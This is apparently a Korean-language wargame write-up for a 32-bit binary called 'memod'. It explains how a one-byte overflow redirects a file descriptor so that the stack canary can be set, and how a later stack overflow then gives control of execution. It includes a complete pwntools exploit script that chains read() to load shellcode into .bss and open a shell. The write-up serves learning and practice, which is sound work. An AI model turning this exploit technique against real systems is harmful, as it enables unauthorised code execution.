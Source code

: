 ```yaml
---
layout: post
title: "memod"
comments : true
category : War Game
---
```


# 문제
***

memod 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

file 명령어 결과는 다음과 같다.
```
memod: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=0609d9d923e140f16f00fe4df883f8250b195222, not stripped
```

바이너리 코드
```
...
char s; // [ebp-128h]
char file[32]; // [ebp-28h]
int fd; // [ebp-8h]
int s2;
...
for(i=0;i<=32;++i)
{
    s=getchar();
    if((unsigned int)(s-48) > 9)
    {
        file[i]=0;
        break;
    }
    file[i]=s;
}
if(!file[0])
{
    ...
    exit(0);
}
read(fd,&canary_backup,4u);
s2=canary_backup;
...
fgets(&s,512,stdin);
...
if(memcmp(&canary_backup,&s2,4u))
{
    ...
    exit(-1);
}
return 0
```

for문에서 1byte overflow가 발생한다. 이를 통해서 fd에 1byte 값을 덮어쓸 수 있기 때문에 fd를 내가 원하는 값으로 변경할 수 있다. (파일 디스크립터는 사용하지 않는 가장 작은 파일 디스크립터 번호를 할당받는다. 0,1,2는 stdin, stdout, stderr) 


fgets 함수에서 buffer overflow가 발생한다. 

그리고 NX가 diabled되어 있기 때문에 bss 영역에서 shellcode를 실행할 수 있다.
## exploit 방법
1. 1byte overflow를 통해서 fd를 0으로 바꾼다. 이를 통해서 canary값을 내 입력값으로 바꿀 수 있다.
2. canary값을 알고 있기 때문에 fgets 함수에서 발생하는 buffer overflow로 eip를 컨트롤 할 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round2/memod/memod"

p=process(file_path)

read_plt=0x80484f0
pppr=0x08048836
bss_sec=0x8049b90

shell = asm(shellcraft.sh())

pay="7"*32+"A"  # 1byte bof -> fd = 0

p.send(pay)
time.sleep(0.5)
p.send("AAAA") # canary = 0x41414141

p.recvuntil(";p\n")

pay2="A"*300
pay2+=p32(read_plt)
pay2+=p32(pppr)
pay2+=p32(0)
pay2+=p32(bss_sec)
pay2+=p32(0x100)
pay2+=p32(bss_sec)

p.sendline(pay2)
time.sleep(0.5)
p.send(shell)

p.interactive()
```

# 알게 된 것
***
1. fgets / gets / scanf/ getchar 등의 함수는 입력 버퍼를 가지고 있다. 따라서 입력 버퍼에 저장되어 있는 입력값들을 입력으로 받는다. 하지만 read(0,&buf,0x100) 는 입력 버퍼에서 입력값을 읽어오는 것이 아니라 해당 함수가 호출된 이후에 들어오는 입력을 받는다. <br/>
=> fgets와 같은 함수로 입력을 받은 뒤 바로 read함수를 호출하는 경우 send 사이에 time.sleep()을 넣어줘야 한다.
2. fgets, scanf, gets는 엔터까지 입력을 받기 때문에 .sendline으로 입력을 넣어줘야 한다.
   getchar, read 함수는 .send로 입력을 넣어준다.
